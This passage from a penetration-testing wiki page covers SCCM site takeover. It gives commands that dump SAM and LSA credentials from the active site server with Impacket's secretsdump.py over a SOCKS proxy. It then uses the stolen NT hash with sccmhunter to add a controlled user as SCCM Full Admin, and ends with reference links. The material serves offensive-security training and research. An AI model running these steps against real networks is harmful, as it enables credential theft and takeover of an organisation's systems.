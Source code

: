 3. Dump active site server account credentials

Through the socks session, it is possible to dump the local credentials stored in the SAM database, and the secrets from the LSA, with [Impacket](https://github.com/fortra/impacket)'s [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) (Python).

```bash
proxychains4 secretsdump.py $DOMAIN/$PASSIVE_SERVER\$@$ACTIVE_SERVER.$DOMAIN
```

Retrieve the LM:NT hash of the server account.

4. Add a new SCCM `Full Admin`

Since the active site server must be a member of the SMS Provider administrators (it is member of the `SMS Admins` group), its credentials can be used to add a new controlled user to the `Full Admin` SCCM group. [sccmhunter](https://github.com/garrettfoster13/sccmhunter) (Python) can be used for this purpose.

```bash
sccmhunter.py admin -u $ACTIVE_SERVER\$ -p $LMHASH:NTHASH -ip $SMS_PROVIDER_IP

() (C:\) >> add_admin controlledUser <controlledUser_SID>
() (C:\) >> show_admins
```

Post exploitation via SCCM can now be performed on the network.

{% hint style="warning" %}
The tool author ([Chris Thompson](https://mobile.twitter.com/\_mayyhem)) warns that [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) is a PoC only tested in lab. One should be careful when running in production environments.
{% endhint %}

## Resources

{% embed url="https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/" %}

{% embed url="https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts" %}

{% embed url="https://posts.specterops.io/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9" %}

{% embed url="https://blog.xpnsec.com/unobfuscating-network-access-accounts/" %}

{% embed url="https://posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1" %}

{% embed url="https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a" %}

{% embed url="https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf" %}

{% embed url="https://posts.specterops.io/sccm-hierarchy-takeover-with-high-availability-7dcbd3696b43" %}
